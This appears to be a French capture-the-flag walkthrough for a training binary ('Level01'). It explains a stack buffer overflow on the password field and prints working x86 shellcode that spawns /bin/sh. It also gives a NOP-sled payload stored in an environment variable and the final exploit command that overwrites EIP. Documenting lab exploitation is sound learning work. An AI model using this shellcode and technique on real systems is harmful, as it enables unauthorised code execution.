


# Level01:

Ici quand nous executons le programme il nous demande un username et un password mais en regardant le code on voit qu'a aucun moment il n'y a d'appel de la fonction system... Il faut donc exploiter un **Buffer Overflow** sur le champ du password.

Le username se retrouve dans le source code et est "dat_wil".

Apres quelques tests le **Buffer Overflow** deborde sur EIP apres les 80 caracteres et permet donc de modifier le pointeur d'execution en le faisant pointer vers un shellcode.

On stock l'exploit dans une variable d'environement
`export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")`

Je lance gdb sur l'executable pour trouver la zone des variables d'environnement.

**Le but est donc de retrouver notre shell code dans le block de memoire et d'extraire une adresse qui correspond au millieu des NOP (0x90)**

**La commande finale ressemble a ca**

`(python -c "print('dat_wil\n' + 'A' * 80 + '\x50\xd8\xff\xff')" ; cat) | ./level01`
`[ username + padding + overflow sur eip (donc adresse sur les NOP du shellcode)]`

